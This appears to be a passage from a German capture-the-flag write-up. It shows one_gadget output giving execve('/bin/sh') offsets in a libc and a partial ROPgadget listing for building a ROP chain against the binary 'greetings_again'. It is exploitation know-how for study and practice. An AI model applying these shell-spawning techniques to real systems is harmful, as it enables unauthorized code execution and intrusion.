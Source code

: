 Nun wird mittels [one_gadget](https://github.com/david942j/one_gadget) geprüft, ob ein geeigneter `execute("/bin/sh")` Aufruf in der libc vorhanden ist:


```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ one_gadget DOCKER_libc-2.31.so
0xc961a execve("/bin/sh", r12, r13)
constraints:
  [r12] == NULL || r12 == NULL
  [r13] == NULL || r13 == NULL

0xc961d execve("/bin/sh", r12, rdx)
constraints:
  [r12] == NULL || r12 == NULL
  [rdx] == NULL || rdx == NULL

0xc9620 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL

```

Der erste Offset sowie die Bedingungen sollten notiert werden.
Die Bedingungen des ersten Offsets (`0xc961a`) sind, dass `r12` und `r13` NULL sind.

Es muss eine ROP Chain aus der `greetings_again` Binary gefunden werden, welche diese Voraussetzungen deckt. Hierfür wurde [ROPGadget](https://github.com/JonathanSalwan/ROPgadget) genutzt.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ ROPgadget --binary greetings_again
Gadgets information
============================================================
0x000000000000113b : add byte ptr [rax], 0 ; add byte ptr [rax], al ; endbr64 ; jmp 0x10c0
0x00000000000010b3 : add byte ptr [rax], 0 ; add byte ptr [rax], al ; ret
0x000000000000113c : add byte ptr [rax], al ; add byte ptr [rax], al ; endbr64 ; jmp 0x10c0
0x0000000000001037 : add byte ptr [rax], al ; add byte ptr [rax], al ; jmp 0x1020
0x000000000000116c : add byte ptr [rax], al ; add byte ptr [rax], al ; pop rbp ; ret
0x00000000000010b4 : add byte ptr [rax], al ; add byte ptr [rax], al ; ret
0x0000000000001130 : add byte ptr [rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax] ; ret
0x000000000000113e : add byte ptr [rax], al ; endbr64 ; jmp 0x10c0
0x0000000000001039 : add byte ptr [rax], al ; jmp 0x1020
0x000000000000116e : add byte ptr [rax], al ; pop rbp ; ret
0x0000000000001034 : add byte ptr [rax], al ; push 0 ; jmp 0x1020
0x00000000000010b6 : add byte ptr [rax], al ; ret
0x0000000000001009 : add byte ptr [rax], al ; test rax, rax ; je 0x1012 ; call rax
0x00000000000010a8 : add byte ptr [rax], al ; test rax, rax ; je 0x10b8 ; jmp rax
0x00000000000010e9 : add byte ptr [rax], al ; test rax, rax ; je 0x10f8 ; jmp rax
0x00000000000010f5 : add byte ptr [rax], r8b ; ret
0x0000000000001131 : add byte ptr [rcx], al ; pop rbp ; ret
0x000000000000112f : add byte ptr cs:[rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax] ; ret
0x00000000000010e8 : add byte ptr cs:[rax], al ; test rax, rax ; je 0x10f8 ; jmp rax
0x0000000000001132 : add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax] ; ret
0x0000000000001013 : add esp, 8 ; ret
0x0000000000001012 : add rsp, 8 ; ret
0x0000000000001250 : call qword ptr [rax + 0x2e66c3c9]
0x00000000000011de : call qword ptr [rax + 0x4855c35d]
0x0000000000001148 : call qword ptr [rbp + 0x48]
0x0000000000001010 : call rax
0x0000000000001143 : cli ; jmp 0x10c0
0x0000000000001140 : endbr64 ; jmp 0x10c0
0x00000000000012a4 : fisttp word ptr [rax - 0x7d] ; ret
```